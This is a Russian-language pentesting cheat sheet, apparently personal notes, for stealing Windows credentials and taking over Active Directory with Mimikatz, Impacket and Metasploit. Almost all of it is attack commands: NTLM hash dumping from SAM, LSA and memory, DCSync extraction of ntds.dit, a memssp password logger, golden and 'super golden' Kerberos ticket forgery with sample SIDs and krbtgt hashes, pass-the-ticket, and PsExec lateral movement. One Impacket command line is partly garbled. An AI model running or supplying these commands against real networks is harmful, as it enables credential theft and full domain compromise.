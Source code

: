 # mimi

МИМИКАТЗ в метасплойт

use windows/x64/meterpreter_reverse_tcp

load kiwi
kiwi_cmd lsadump::sam

https://github.com/gentilkiwi/mimikatz/releases 

Как извлечь хеш пароля пользователя NTLM из файлов реестра


Если есть готвый стянуты файл sam  и system

.\mimikatz.exe

lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

Если из памяти...
После запуска Mimikatz можно использовать следующие команды для вытягивания паролей из памяти Windows:

- `privilege::debug` - открывает привилегии отладки для текущего процесса.
- token::elevate - повышение привелегий
- `sekurlsa::logonPasswords` - выводит введенные пользователем логины и хэши паролей.
- `lsadump::sam` - вытягивает пароли из базы данных SAM.
- `lsadump::lsa` - вытягивает хэши паролей из дискового хранилища LSA.
- lsadump::lsa /patch Сбросьте эти хэши!!
- `token::elevate` - поднимает привилегии на максимальный уровень.
- `token::whoami` - выводит информацию о текущем пользователе.
-  lsadump::cache - mscash2 последних 10 пользователей из систем и секьюрити
- lsadump::dcsync /all /csv - дампим ntds.dit с контроллера
Подробнее: https://www.securitylab.ru/analytics/517178.php

- lsadump::secrets  - ntlm аккаунта машины

  
Для получения данных из ntds.dit, аналогично команде lsadump::sam в инструменте Mimikatz, можно использовать следующие команды:

1. Загрузите ntds.dit в память с помощью команды "lsadump::synchronize". Например:
```
mimikatz # lsadump::synchronize /system:C:\Windows\system32\config\system /ntds:C:\Windows\NTDS\ntds.dit
```

2. Используйте команду "lsadump::dcsync" для извлечения данных из базы данных ntds.dit. Например:
```
mimikatz # lsadump::dcsync /user:Administrator
```
где "Administrator" - это имя пользователя, данные которого вы хотите получить.


Если LSASS в виртуальном контейнере

privilege::debug
misc::memssp

и получаем после перелогина

c:\windows\system32\mimilsa.log

# Golden ticket  - Dump SID and KRBTGT hash (on DC) от АДМИНИСТРАТОРА

PS C:\pentst> .\mimikatz.exe

mimikatz # privilege::debug

mimikatz # token::elevate (DONT NEED THIS)

mimikatz # lsadump::lsa /patch (lsadump::lsa /inject /name:krbtgt) ---нужен sid и хеш krbtgt

# Create golden ticket (write to file in this case)

# Golden ticket impacket

python lookupsid.py ignite/Administrator:Ignite@987@192.168.1.105   (Получение SID домена)

python secretsdump.py administrator:Ignite@987@192.168.1.105 -выходной файл krb -user-status (Получение хеша krbtg)

impacket-ticketer -nthash 08f5bf2e292d77d8e460d3926a0d90de -domain-sid S-1-5-21-719111203-942671344-1831409528 -domain domain.dom anyuser   (В текущей директории создан билет anyuser.ccache. Экспортируем его)

export KRB5CCNAME=anyuser.ccache

python3 psexec.py -k -no-pass [домен]/[пользователь]@[имя хоста]    (подключение с псезек)



https://xakep.ru/2020/04/15/windows-ad-persistence/


PS C:\Tools> .\mimikatz.exe
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:golden

(kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500)

# Super golden ticket
kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:corp_super_golden /endin:2147483647

# Inject ticket to memory
C:\Tools> mimikatz.exe
mimikatz # kerberos::ptt ticket.kirbi

# PsExec to DC
PsExec64.exe \\dc01 cmd.exe

# Или запуск cmd для доступа к другим машинам
mimikatz # misc::cmd
